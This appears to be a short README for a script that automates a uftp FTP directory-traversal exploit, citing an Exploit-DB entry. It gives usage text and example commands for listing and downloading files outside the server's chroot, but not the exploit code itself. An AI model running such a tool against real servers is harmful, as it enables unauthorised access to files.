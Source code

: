 # uftp Directory Traversal (
Exploit script from https://www.exploit-db.com/exploits/51000
Automating the exploit with wordlist

## Usage 

```bash
usage: ftp_traversal.py [-h] [-w WORDLIST] -r RHOST -l LHOST [-v] [--version] action [wordlist]
ftp_traversal.py: error: the following arguments are required: action, -r/--rhost, -l/--lhost
```
### Example
It allows files listing bypassing chroot :

```bash
./ftp_traverrsal.py list -w <WORDLIST> -r <RHOST> -l <LHOST>
```
And also files downloading :

```
./ftp_traverrsal.py download -w <WORDLIST> -r <RHOST> -l <LHOST>
```

